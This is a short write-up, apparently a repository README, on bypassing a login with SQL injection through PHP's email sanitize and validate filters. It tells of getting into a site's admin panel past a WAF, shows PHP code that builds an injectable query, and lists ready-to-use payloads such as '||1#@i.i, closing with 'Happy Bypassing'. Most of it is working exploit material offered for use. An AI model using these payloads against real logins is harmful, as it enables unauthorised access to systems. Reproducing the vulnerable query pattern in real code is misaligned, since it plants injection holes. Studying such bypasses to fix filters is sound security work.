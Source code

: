 # Valid Email !!

Story:
While testing a site, I came across it's admin panel and got stuck at login. The common SQLi login bypass payloads weren't working and WAF was too much disturbing.
But after observing 3 types of errors "Wrong Username or Password","Error Occured" and "Invalid Email", I found that
'||1#@i.i was considered as valid email and it bypassed the WAF and boom, I got in :D
After looking at the source code I saw that FILTER_SANITIZE_EMAIL and FILTER_VALIDATE_EMAIL filter were being used.

Explanation:

'||1#@i.i

is a valid email according to FILTER_VALIDATE_EMAIL filter, i.e:

$email = "'||1#@i.i";
$email = filter_var($email, FILTER_SANITIZE_EMAIL);
    if (filter_var($email, FILTER_VALIDATE_EMAIL)) {
		echo 'Valid email !!<br>';
    $query = "SELECT * FROM login WHERE email='$email'";
		echo $query;
	}
  
will output:
Valid email !!
SELECT * FROM login WHERE email=''||1#@i.i'

Therefore '||1#@i.i can be used as a payload for SQLi login bypass when FILTER_SANITIZE_EMAIL &/|| FILTER_VALIDATE_EMAIL are in effect.

Some other payloads:
--+-------------------+
'||1#@i.i
'||1=1#@i.i
'||''=''#@i.i
'||'c'='c'#@i.i
'OR''=''#@i.i
'OR'1'='1'#@i.i
'\O/R'\'/=\'/'#@i.i
'"|\|/1#@i.i
'/|\|1#@i.i
--+-------------------+

and some others..

FILTER_SANITIZE_EMAIL strips " therefore "||1#@i.i cannot be used

FILTER_SANITIZE_EMAIL will convert:
'"|\|/1#@i.i
to:
'||1#@i.i
Therefore it can be used when FILTER_SANITIZE_EMAIL and WAF are in place.

You can try these in vulnerable login.php file

Happy Bypassing ^i^
